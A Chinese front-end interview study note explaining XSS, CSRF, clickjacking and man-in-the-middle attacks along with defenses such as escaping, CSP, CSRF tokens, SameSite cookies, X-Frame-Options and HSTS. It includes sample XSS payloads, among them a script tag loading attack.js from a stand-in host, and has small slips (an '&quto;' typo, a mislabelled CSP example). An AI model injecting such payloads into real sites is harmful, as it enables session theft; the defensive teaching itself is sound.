

# 跨站脚本：XSS

> 涉及面试题：什么是 XSS 攻击？如何防范 XSS 攻击？什么是 CSP？

## **定义**

XSS（跨站脚本 Cross site scripting，通常简称：XSS） 简单点来说，**就是攻击者利用网站漏洞将可执行的代码注入到其他用户浏览器**。

## **分类**

XSS 可以分为多种类型，但是总体上我认为分为两类：持久型和非持久型。
攻击者将注入型脚本提交至被攻击网站数据库中，

> **持久型（存储型）：**

【解释】：**持久型也就是攻击脚本被服务端写入进数据库中**，这种攻击危害性很大，当其他用户浏览器请求数据时，**注入的攻击脚本从服务器返回并执行**，就会导致大量正常访问页面的用户都受到攻击。
【要点】：

- 恶意代码存储在目标网站服务器上。
- 有服务端参与。
- 只要用户访问被注入恶意脚本的页面时，就会被攻击。

【例子】：

- 例一：攻击者在目标网站留言板中提交了`<script src="http://a.com/attack.js"/>`。
  **目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中**。
  其他用户在访问该留言板时，会自动执行攻击者注入脚本。

- 例二：对于评论功能来说，就得防范持久型 XSS 攻击，因为我可以在评论中输入以下内容`<script>alert(1)</script>`，这种情况如果前后端没有做好防御的话，这段评论就会被存储到数据库中，这样每个打开该页面的用户都会被攻击到。

> **非持久型：**

【原理】：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

非持久型相比于前者危害就小的多了，**一般通过修改 URL 参数的方式加入攻击代码，诱导用户访问链接从而进行攻击**。

【要点】

- 通过 URL 插入恶意代码。
- 需要用户访问特定链接。

【例子】：举个例子，如果页面需要从 URL 中获取某些参数作为内容的话，不经过过滤就会导致攻击代码被执行（可以通过这个获取对方的 Cookie 等）。

```js
// http://www.domain.com?name=<script>alert(1)</script>
// http://www.domain.com?name=<script src="http://a.com/attack.js"/>

<div>{{ name }}</div>
```

但是对于这种攻击方式来说，如果用户使用 Chrome 这类浏览器的话，浏览器就能自动帮助用户防御攻击。但是我们不能因此就不防御此类攻击了，因为我不能确保用户都使用了该类浏览器。



## **防御方式**

对于 XSS 攻击来说，通常有两种方式可以用来防御。

> **方式一：转义字符**

【解释】
首先，对于用户的输入应该是永远不信任的。**最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义**，如下：

```js
function escape(str) {
  str = str.replace(/&/g, "&amp;");
  str = str.replace(/</g, "&lt;");
  str = str.replace(/>/g, "&gt;");
  str = str.replace(/"/g, "&quto;");
  str = str.replace(/'/g, "&#39;");
  str = str.replace(/`/g, "&#96;");
  str = str.replace(/\//g, "&#x2F;");
  return str;
}
```

通过转义可以将攻击代码 `<script>alert(1)</script>` 变成

```js
// -> &lt;script&gt;alert(1)&lt;&#x2F;script&gt;
escape("<script>alert(1)</script>");
```

**但是对于显示富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉**。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，**但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式**。

```js
const xss = require("xss");
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html);
```

以上示例使用了 js-xss 来实现，可以看到在输出中保留了 h1 标签且过滤了 script 标签。

> **方式二：开启 CSP（Content Security Policy，内容安全策略）**

【解释】
**CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的**。我们可以通过这种方式来尽量减少 XSS 攻击。

【开启方式】
通常可以通过两种方式来开启 CSP：

- 设置 HTTP Header 中的`Content-Security-Policy`
- 设置 meta 标签的方式 `<meta http-equiv="Content-Security-Policy">`
- 实例
  这里以设置 HTTP Header 来举例：

  - 只允许加载本站资源
    ```http
    Content-Security-Policy: default-src 'self'
    ```
  - 只允许加载 HTTPS 协议图片
    ```http
    Content-Security-Policy: img-src https://*
    ```
  - 允许加载任何来源框架
    `http Content-Security-Policy: child-src 'none' `
    当然可以设置的属性远不止这些，你可以通过查阅 [文档](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) 的方式来学习，这里就不过多赘述其他的属性了。

  对于这种方式来说，只要开发者配置了正确的规则，那么即使网站存在漏洞，攻击者也不能执行它的攻击代码，并且 CSP 的兼容性也不错。

> **方式三：设置 Cookie httpOnly 属性**

设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取。

# 跨站请求伪造：CSRF

> 涉及面试题：什么是 CSRF 攻击？如何防范 CSRF 攻击？

## **定义**

【原理】：
**攻击者诱导受害者进入第三方网站，在第三方网站中向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的身份凭证（后端就以为是用户在操作，从而进行相应的逻辑），达到冒充用户对被攻击的网站执行某项操作的目的**。

【要点】：

- 利用浏览器在发送 HTTP 请求时会自动带上 Cookie 的原理，冒用受害者身份请求。
- 攻击一般发生在第三方网站上。
- 攻击者只能“冒用”受害者的身份凭证，并不能获取。
- 跨站请求有多种方式，常见的有图片 URL、超链接、Form 提交等。

【例子】：

- 例一：

攻击者在第三方网站上放置一个如下的 img``，受害者访问该页面后（前提：受害者在 `hzfe.org` 登录过且产生了 Cookie 信息），浏览器会自动发起这个请求，`hzfe.org` 就会收到包含受害者身份凭证的一次跨域请求。

若目标网站没有任何防范措施，那攻击者就能冒充受害者完成这一次请求操作。

- 例二：

举个例子，假设网站中有一个通过 GET 请求提交用户评论的接口，那么攻击者就可以在钓鱼网站中加入一个图片，图片的地址就是评论接口。

```html

```

那么你是否会想到使用 POST 方式提交请求是不是就没有这个问题了呢？其实并不是，使用这种方式也不是百分百安全的，攻击者同样可以诱导用户进入某个页面，在页面中通过表单提交 POST 请求。

## **防御方式**

防范 CSRF 攻击可以遵循以下几种规则：

> **规则**

- Get 请求不对数据进行修改
- 不让第三方网站访问到用户 Cookie
- 阻止第三方网站请求接口
- **请求时附带验证信息**，比如验证码 或者 Token

> **防范方式如下**

- **使用 CSRF Token 验证用户身份**
  - 原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
    优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
    缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量。
- **双重 Cookie 验证**
  - 原理：利用攻击者不能获取到 Cookie 的特点，在 URL 参数或者自定义请求头上带上 Cookie 数据，服务器再验证该数据是否与 Cookie 一致。
  - 优点：无需使用 Session，不会给服务器压力。
- **设置 Cookie 的 SameSite 属性可以用来限制第三方 Cookie 的使用**。
  **该属性表示 Cookie 不随着跨域请求发送**，可以很大程度减少 CSRF 的攻击，但是该属性目前并不是所有浏览器都兼容。
  可选值有 Strict、Lax、None。
  - Strict：完全禁止第三方 Cookie。
  - Lax：只允许链接、预加载请求和 GET 表单的场景下发送第三方 Cookie。
  - None：关闭 SameSite 属性。
- **设置白名单，仅允许安全域名请求**
- **增加验证码验证**

# 点击劫持

## **定义**

点击劫持是一种视觉欺骗的攻击手段。==攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击==。

## **防御方式**

对于这种攻击方式，推荐防御的方法有两种。

- `X-FRAME-OPTIONS`
  `X-FRAME-OPTIONS` 是一个 HTTP 响应头，在现代浏览器有一个很好的支持。**这个 HTTP 响应头 就是为了防御用 iframe 嵌套的点击劫持攻击**。
  该响应头有三个值可选，分别是：
  - `DENY`，表示页面不允许通过 iframe 的方式展示
  - `SAMEORIGIN`，表示页面可以在相同域名下通过 iframe 的方式展示
  - `ALLOW-FROM`，表示页面可以在指定来源的 iframe 中展示

# 中间人攻击

## **定义**

中间人攻击是**攻击方同时与服务端和客户端建立起了连接，并让对方认为连接是安全的**，但是实际上整个通信过程都被攻击者控制了。攻击者不仅能获得双方的通信信息，**还能修改通信信息**。


【原理】：
中间人攻击是一种通过各种技术手段入侵两台设备通信的网络攻击方法。

成功的中间人攻击主要有两个不同的阶段：拦截和解密。

> 拦截阶段

即攻击者需要用户数据在到达目标设备前拦截并通过攻击者的网络。分为被动攻击和主动攻击。

常见的被动攻击（也是最简单）的方法，攻击者向公众提供免费的恶意 WiFi 热点，一旦有受害者连接了该热点，攻击者就能完全了解其所有的在线数据交换。

常见的主动攻击有两种：

1. ARP 欺骗： 攻击者利用 ARP 的漏洞，通过冒充网关或其他主机，使得到达网关或其他主机的流量通过攻击者主机进行转发。
2. DNS 欺骗： 攻击者冒充域名服务器，将受害者查询的 IP 地址转发到攻击者的 IP 地址。

> 解密阶段

拦截后，若连接是使用 HTTPS 协议即传递的数据用了 SSL / TLS 加密，这时还需要其他手段去解密用户数据。

【SSL 劫持（伪造证书）】

攻击者在 TLS 握手期间拦截到服务器返回的公钥后，将服务器的公钥替换成自己的公钥并返回给客户端，这样攻击者就能用自己的私钥去解密用户数据，也可以用服务器公钥解密服务器数据。

因为是伪造的证书，所以客户端在校验证书过程中会提示证书错误，若用户仍选择继续操作，此时中间人便能获取与服务端的通信数据。

【SSL 剥离】
攻击者拦截到用户到服务器的请求后，攻击者继续和服务器保持 HTTPS 连接，并与用户降级为不安全的 HTTP 连接。

服务器可以通过开启 HSTS（HTTP Strict Transport Security）策略，告知浏览器必须使用 HTTPS 连接。但是有个缺点是用户首次访问时因还未收到 HSTS 响应头而不受保护。

## **防御方式**

对于开发者来说：

- 支持 HTTPS。
- 开启 HSTS 策略。

对于用户来说：

- 尽可能使用 HTTPS 链接。
- 避免连接不知名的 WiFi 热点。
- 不忽略不安全的浏览器通知。
- 公共网络不进行涉及敏感信息的交互。
- 用可信的第三方 CA 厂商，不下载来源不明的证书。

通常来说**不建议使用公共的 Wi-Fi**，因为很可能就会发生中间人攻击的情况。如果你在通信的过程中涉及到了某些敏感信息，就完全暴露给攻击方了。

当然防御中间人攻击其实并不难，**只需要增加一个安全通道来传输信息。HTTPS 就可以用来防御中间人攻击**，但是并不是说使用了 HTTPS 就可以高枕无忧了，因为如果你没有完全关闭 HTTP 访问的话，**攻击方可以通过某些方式将 HTTPS 降级为 HTTP 从而实现中间人攻击**。

# 参考链接

- [剑指前端 Offer-前端安全](https://febook.hzfe.org/awesome-interview/book1/network-security)
